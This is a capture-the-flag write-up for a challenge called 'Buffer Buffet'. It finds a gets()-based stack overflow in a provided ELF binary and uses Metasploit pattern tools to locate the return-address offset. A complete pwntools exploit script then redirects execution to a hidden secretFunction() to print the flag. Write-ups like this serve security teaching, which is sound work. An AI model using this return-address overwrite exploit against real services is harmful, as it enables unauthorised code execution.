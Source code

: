 # Buffer Buffet

Writeup Author: Nguyen Nghia Hiep
## Description
```
As an elite hacker invited to an exclusive digital banquet, you must navigate through the layers of a complex software system. Among the appetizers, main course, and dessert lies a hidden entry point that, when discovered, reveals a treasure trove of sensitive information.

Author: @Inv1s1bl3

nc 34.125.199.248 4056
```
## Writeup
We are given the binary ./vuln, vuln is an ELF64 binary file. Running the binary, user input is asked and is returned.
```bash
$ ./vuln                                                           
Enter some text:
hello
You entered: hello
```
Here I attempted to run Ghidra to decompile the binary and look for interesting functions, this process can also be done on GDB (using the command info functions).

Here we found the main() function, and it is calling vuln() function. In vuln() we can see that the code is prompting the user for input using gets() (which is dangerous as it does not check for buffer size of user input) and is storing in local_198 which has capacity for 400 bytes.

This outlines a buffer overflow vulnerability. Here we also discover an interesting secretFunction() function which will display the flag.

If we can overflow the input buffer and inject address to secretFunction() to the rip register, we can display the flag. First, I locate the offset to the rip register. Using metasploit tools I created a pattern to put in my buffer (length of 450 bytes which is 50 bytes longer than what the input can store).
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 450
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9
```

As expected a segmentation fault is shown, viewing the registers, in particular the rip register.

rbp has been overflow with our input (convert hex value to ascii and we'll see part of our input); rip has also been overflow (it now contains our stored at rip register). Now we can locate the offset.
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 450 -q 6e41376e41366e41 
[*] Exact match at offset 408
```
The offset is located at the 408 byte. A python exploit script can be created.
```python
# Author: Nguyen Nghia Hiep

import pwn
import argparse

# Add command line arguments to our exploit script
parser = argparse.ArgumentParser()
parser.add_argument("choice", type=str, choices={"local", "remote"})
parser.add_argument("--target", "-t", type=str, required=False)
parser.add_argument("--port", "-p", type=int, default=0, required=False)

args = parser.parse_args()

elf = pwn.ELF("./vuln")

# Buffer overflow at 400 bytes

# Test offset at 408 bytes
# secretFunction() address retrieved from ELF symbol table
new_rip =  pwn.p64(elf.symbols["secretFunction"])

# After the secretFunction() is called set return address to main (just to make the program execute flawlessly).
return_main = pwn.p64(elf.symbols["main"])

payload = b"".join(
        [
            b"A" * 408,
            new_rip,
            return_main,
        ]
    )

payload += b"\n"

if args.choice == "local":
    p = elf.process()

elif args.choice == "remote":
    if not args.target or not args.port:
        pwn.warning("Supply -t <target> and -p <port>")
        exit()
    p = pwn.remote(args.target, args.port)

p.sendline(payload)
p.interactive()
```
Running the exploit script the flag can be obtained!

## References
